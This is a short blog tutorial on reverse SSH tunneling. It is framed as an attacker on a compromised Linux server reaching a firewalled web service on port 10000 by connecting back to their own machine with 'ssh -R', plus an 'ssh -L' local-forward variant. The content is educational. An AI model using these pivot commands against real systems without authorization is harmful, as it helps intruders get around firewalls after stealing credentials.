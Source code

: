 ```yaml
---
layout: post
title: Reverse SSH Tunneling
date: '2024-02-03 17:25:52 +0100'
categories: [Articles, Tutorials]
tags: [linux, ssh, administration]
---
```



Hello fellow hacker, 

In this article, we will be discovering an interesting topic, `Reverse SSH Tunneling`.

### Scenario

<img src="/../assets/ssh_tun0.png">

You, the attacker, somehow got some user credentials and accessed to the victim's linux server.

Upon doing some enumerations for privilege escalation and turning around in circles, you tried to list open ports on the machine.

```bash
$> ss -tunlp
Netid  State      Recv-Q Send-Q                                   Local Address:Port                                                  Peer Address:Port              
udp    UNCONN     0      0                                                    *:10000                                                            *:*                  
udp    UNCONN     0      0                                                    *:68                                                               *:*                  
tcp    LISTEN     0      128                                                  *:10000                                                            *:*                  
tcp    LISTEN     0      128                                                  *:22                                                               *:*                  
tcp    LISTEN     0      80                                           127.0.0.1:3306                                                             *:*                  
tcp    LISTEN     0      128                                                 :::80                                                              :::*                  
tcp    LISTEN     0      128                                                 :::22                                                              :::*                  
```

You come across an interesting thing ! An open port (10000 in this case) blocked by the firewall.

You investigate further, and you find out that is a website hosted there.
You can't of couse access it from your attacker's machine, since it is blocked by the firewall, nor access it from the victim's machine, since it doesn't have a GUI.

You can't obviously alter the firewall rules.

So, what should you do.. ?

Let’s me introduce you to to `Reverse SSH Tunneling`

Reverse SSH tunneling allows you to connect from the victim machine back to your attacker machine (think of it as a legit reverse shell), binding a specific port.

Here is the command ( on the victim’s machine )

```bash
ssh -R 10000:localhost:10000 yariss@10.11.60.242
```
What this does is you connect back to your attacker’s machine, binding the port 10000 on the victim’s machine, with port 10000 on your attacker’s machine.

Now if you try to access `[localhost:10000](http://localhost:10000)` , it will work !

> One important note, you need `ssh`  enabled on your attacker’s machine.

### SSH Tunnel vs Reverse SSH Tunnel

SSH Tunnel is straight forward, we will just establish a normal ssh connection, but we specify some binding options.

Going back to our previous example, we already have the credentials of the victim’s machine, we can ssh to it, but binding port `10000`  of that machine to our local machine like so :

```bash
ssh -L 10000:127.0.0.1:10000 victim@IP_OF_VICTIM
```

That was it for this article, I hope you learned something!